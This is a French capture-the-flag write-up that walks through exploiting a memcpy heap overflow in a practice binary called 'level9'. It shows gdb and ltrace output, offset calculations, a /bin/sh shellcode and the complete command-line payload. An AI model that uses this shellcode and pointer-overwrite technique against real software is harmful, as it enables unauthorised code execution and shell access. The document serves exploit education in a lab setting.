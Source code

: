 # `memcpy` Exploitation

En décompilant l'exécutable, on remarque qu'il fait appel à le fonction `memcpy` et qu'il fait appel à l'adresse d'une fonction enregistrée dans la mémoire. Nous avons l'intuitions que nous allons devoir utiliser cet appel fonction pour faire appel à une fonction de notre choix.

Avec `gdb`, on remarque que l'appel à la fonction stockée en mémoire est en fait une instruction `call` à l'adresse pointée par `edx`.
```
> gdb --args level9 "AAAA"
[...]
> (gdb) disas main
[...]
   0x08048693 <+159>:	call   *%edx
[...]
```
On remarque que `edx` est assigné juste après l'appel à la fonction `setAnnotation`.
```
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
```
On constate ici in `mov` de `esp+0x10` dans `eax`. Puis un `move` de `eax` dans `edx`. Cela revient à dire qu'on `move` `esp+0x10` dans `edx`. Voyons où pointe `esp+0x10` et imprimons le contenu de cette adresse pour le visualiser plus tard dans la mémoire.
```
> (gdb) x $esp+0x10
0xbffff6a0:	0x0804a078
> (gdb) x 0x0804a078
0x804a078:	0x0804a00c
```
`esp+0x10` pointe donc sur à l'adresse `0x0804a078`.

> Il est important de noter que `edx` pointe désormais sur une adresse, qui contient l'adresse de la fonction. Cette information est importante à retenir pour la suite.

Mettons cette information de côté, et observons à présent notre `memcpy`. Déterminons tout d'abord l'endroit de la copie en mémoire. Pour cela, on peut, comment l'exercice précédent, utiliser `ltrace`.
```
> ltrace ./level9 "AAAA"
[...]
memcpy(0x0804a00c, "AAAA", 4)                                             = 0x0804a00c
[...]
```
`memcpy` copie donc à l'adresse `0x0804a00c`.

On remarque que l'adresse pointée par `esp+0x10` et l'adresse de copie de `memcpy` semblent être assez proches. On devrait donc pouvoir utiliser l'appel à le fonction `memcpy` pour écraser l'adresse pointée par `esp+0x10` par une adresse que nous définirons. Vérifions le en le visualisant. On `break` à l'instruction suivant l'appel à `memcpy`.
```
> (gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave  
   0x08048739 <+43>:	ret    
End of assembler dump.
> (gdb) b *0x08048738
Breakpoint 1 at 0x8048738
> (gdb) r
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048738 in N::setAnnotation(char*) ()
> (gdb) x/30wx 0x0804a00c
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
            ^
            AAAA
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                esp+0x10
0x804a07c:	0x00000000	0x00000000
```
Nos hypothèses sont confirmées. Le décalage entre les deux adresses semble assez grand pour injecter un `shell code`. Nous utiliserons celui-ci :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```
Rappelons-nous, l'adresse à écraser doit pointer sur une adresse contenant l'adresse du début de notre `shell code`. C'est un point important car on ne peut pas effectuer un `jump` directement sur notre `shell code`. Voici donc la façon dont nous allons remplir notre `buffer` :
```
[adresse_du_shell_code] + [shell_code] + [NOP] + [adresse_pointeur_shell_code]
^                         ^                      ^
4 octets                  45 octets              4 octets
```
L'`adresse_pointeur_shell_code` pointe en fait sur l'adresse de `adresse_du_shell_code`.

Pour connaitre le nombre d'instructions `NOP` à insérer, il nous faut connaitre au préalable le décalage entre l'adresse de copie de `memcpy` et `esp+0x10`.
```
offset = esp+0x10 - adresse_copie_memcpy + 0x04
       = 0x804A078 - 0x804a00c + 0x04
       = 70
       = 112 (base 10)
```
```
NOP = 112 - 4 - 45 - 4
    = 59
```
Nous aurons donc besoin d'insérer `59` instructions `NOP`.

Il est facile ensuite de déterminer `adresse_du_shell_code` et `adresse_pointeur_shell_code` en visualisant la mémoire. Reprenons notre visualisation mémoire avec la copie de nos caractères `AAAA` :
```
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
            ^           ^
            adresse     shell code
            shell code
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                adresse pointeur
                                                shell code
0x804a07c:	0x00000000	0x00000000
```
Autrement dit :
```
adresse_shell_code = adresse_copie_memcpy + 0x04
                   = 0x804a00c + 0x04
                   = 0x804A010
```
```
adresse_pointeur_shell_code = adresse_copie_memcpy
                            = 0x804a00c
```
Nous pouvons donc créer notre commande que nous fournirons en argument du programme.
```
python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'
```
```
./level9 `python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'`
```
